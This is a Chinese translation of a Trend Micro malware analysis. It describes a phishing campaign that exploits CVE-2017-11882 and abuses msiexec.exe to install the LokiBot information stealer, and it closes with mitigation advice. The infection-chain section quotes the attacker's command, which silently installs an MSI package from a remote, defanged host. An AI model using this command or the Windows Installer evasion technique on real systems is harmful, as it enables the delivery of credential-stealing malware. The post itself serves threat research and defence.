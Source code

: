 > 原文链接: https://www.anquanke.com//post/id/98190 


# 借助Windows Installer的msiexec.exe实现LokiBot恶意软件感染


                                阅读量   
                                **146630**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者trend micro，文章来源：blog.trendmicro.com
                                <br>原文地址：[https://blog.trendmicro.com/trendlabs-security-intelligence/attack-using-windows-installer-msiexec-exe-leads-lokibot/](https://blog.trendmicro.com/trendlabs-security-intelligence/attack-using-windows-installer-msiexec-exe-leads-lokibot/)

译文仅供参考，具体内容表达以及含义原文为准

## [![](https://p5.ssl.qhimg.com/t012861feaa51ce3d80.png)](https://p5.ssl.qhimg.com/t012861feaa51ce3d80.png)

## 传送门

CVE-2017-11882漏洞利用：投递Loki信息窃取木马的破解版本<br>[https://www.anquanke.com/post/id/91946](https://www.anquanke.com/post/id/91946)



## 前言

早在2017年9月，微软针对影响Microsoft Office的远程代码执行漏洞CVE-2017-11882发布了补丁。然而，该补丁的发布并没有阻止Cobalt等网络犯罪组织利用该漏洞来传播各种恶意软件，其中包括FAREIT、Ursnif和Loki信息窃取恶意软件的破解版本。其中，Loki主要功能是记录键盘输入的密码内容以及窃取加密货币钱包信息。<br>
CVE-2017-11882的微软通告请参考：[https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882) 。<br>
Cobalt组织的信息请参考：[https://blog.trendmicro.com/trendlabs-security-intelligence/cobalt-spam-runs-use-macros-cve-2017-8759-exploit/](https://blog.trendmicro.com/trendlabs-security-intelligence/cobalt-spam-runs-use-macros-cve-2017-8759-exploit/) 。<br>
FAREIT的相关信息请参考：[https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/fareit](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/fareit) 。<br>
Ursnif的相关信息请参考：[http://blog.trendmicro.com/trendlabs-security-intelligence/new-malicious-macro-evasion-tactics-exposed-ursnif-spam-mail/](http://blog.trendmicro.com/trendlabs-security-intelligence/new-malicious-macro-evasion-tactics-exposed-ursnif-spam-mail/) 。<br>
近期，我们发现有攻击者利用CVE-2017-11882这一漏洞，通过Windows操作系统中的Windows Installer服务实现攻击，这是一种此前并没有见到过的新型攻击方式。与此前使用Windows可执行文件mshta.exe利用此漏洞运行PowerShell脚本的恶意软件有所不同，借助于Windows Installer可以下载并执行有效载荷。这种利用方式是使用Windows Installer服务中的msiexec.exe。



## 感染链

[![](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec1.png)](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec1.png)<br>
根据我们分析的样本，该攻击需要借助于钓鱼邮件的方式。攻击者向目标用户发送一封电子邮件，邮件中要求收件人确认是否已向发件人进行付款。该电子邮件所使用语言为韩文，大致翻译为：“你好，请检查你的电脑是否受到病毒或恶意代码的感染。”该提示显然是为了误导收件人让其以为电脑可能被感染。<br>
该邮件中，还包含一个名称为“Payment copy.doc”（趋势科技将其检测为TROJ_CVE201711882.SM木马病毒）的附件，该文档伪装成付款确认文档，实际上其中包含利用CVE2017-11882漏洞的恶意软件。<br>[![](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec2-1.png)](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec2-1.png)<br>[![](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec3.png)](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec3.png)<br>
在感染恶意软件后，会使用以下命令，借助Windows Installer下载并安装名为zus.msi的恶意MSI软件包：<br>
调用cmd.exe /c msiexec /q /I “hxxps[:]//www[.]uwaoma[.]info/zus.msi<br>
msiexec.exe将二进制文件命名为MSIFD83.tmp：<br>[![](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec4.png)](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec4.png)<br>
安装后的MSIL（微软中间语言）二进制文件：<br>[![](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec5.png)](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec5.png)<br>
在完成下载之后，Windows Installer（msiexec.exe）会继续将MSIL或Delphi二进制文件安装到系统。根据下载的MSI包，它可能包含严重混淆的MSIL或Delphi二进制文件，该文件是实际有效载荷的加载程序。<br>
其中，一个值得注意的地方是，该包中提供了一个压缩层，文件扫描引擎需要进行处理和遍历，以检测文件是否为恶意文件。尽管这一过程相对简单，但如果要去检测和识别有效载荷就变得比较复杂了，因为有效载荷包含在严重混淆的MSIL和Delphi二进制文件中。<br>
二进制文件会启动另一个随机命名的实例，该实例中会被替换为恶意软件的有效载荷。<br>[![](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec6-2.png)](https://blog.trendmicro.com/trendlabs-security-intelligence/files/2018/02/msiexec6-2.png)<br>
至此，我们已经知道，这种技术用于承载我们所检测到的样本LokiBot（TROJ_LOKI.SMA），同时也可以模块化地承载其他有效载荷。



## 使用Windows Installer方式的原因

目前，反病毒软件都会重点监控可能的下载程序，例如Wscript、PowerShell、mshta.exe、winword.exe和其他类似的可执行文件，因为它们已经日渐流行地成为安装恶意有效载荷的方式。由于它们被广泛使用，因此通过监控这些软件来阻止威胁也是非常简单有效的方法。然而，使用msiexec.exe下载恶意MSI软件包却在恶意软件中并不常见。<br>
尽管目前也有其他恶意软件会利用msiexec.exe，例如Andromeda僵尸网络，但它却不同于Loki对msiexec.exe的利用方式。在Andromeda中，会向msiexec.exe进行代码注入，并下载有效载荷和更新。另外一个重要的不同是，当Andromeda下载有效载荷及更新时，它会立即下载并执行一个PE文件。而Loki则使用会被msiexec.exe识别为安装包的MSI包，从而借助Windows Installer感染主机。<br>
其实，恶意软件并不真的必须要通过MSI软件包进行安装。与大多数使用msiexec.exe的恶意软件有所不同，该恶意软件不会修改二进制文件或其进程，而是仅仅使用Windows Installer的可用功能来安装恶意软件。另外，MSI软件包通常会被恶意用于安装可能不需要的应用程序（PUA）而不是恶意软件本身，这很可能会成为恶意软件作者的一个新“潮流”。<br>
那么，为什么要使用这种安装的方式呢？我们认为，可能是恶意软件作者在分析了主流反病毒产品后，找到了一个全新的逃避检测方式。尽管我们尽可能多地分析了恶意软件样本，但我们暂时还无法证明该类恶意软件全都是通过上述方式来进行的。此外，根据所使用的文字语言，我们认为它的目标人群为韩国用户。



## 缓解方式

鉴于钓鱼邮件是其传播的主要途径，因此个人用户或组织可以通过阻止恶意邮件和垃圾邮件，来缓解此攻击产生的影响。<br>
其中，用户应该对邮件的内容进行有效甄别。举例来说，用户如果看到要求确认付款收据的邮件，但最近并没有进行过相关交易，那么就应该立即提起警惕。此外，如果看到不知所云的内容，也应该引起怀疑。同样地，在付款确认邮件中包含用于检查病毒或可疑软件的工具，本身就是非常值得怀疑的一种行为。最后，涉及商业交易的邮件内容都非常正式，如果你发现了拼写错误或语法错误，都可能意味着这封邮件是钓鱼邮件。<br>
另一种更直接的缓解方式就是禁用Windows Installer，以防止潜在攻击者在用户系统上安装软件。或者，也可以在系统设置中，设置为“仅由系统管理员安装程序”。
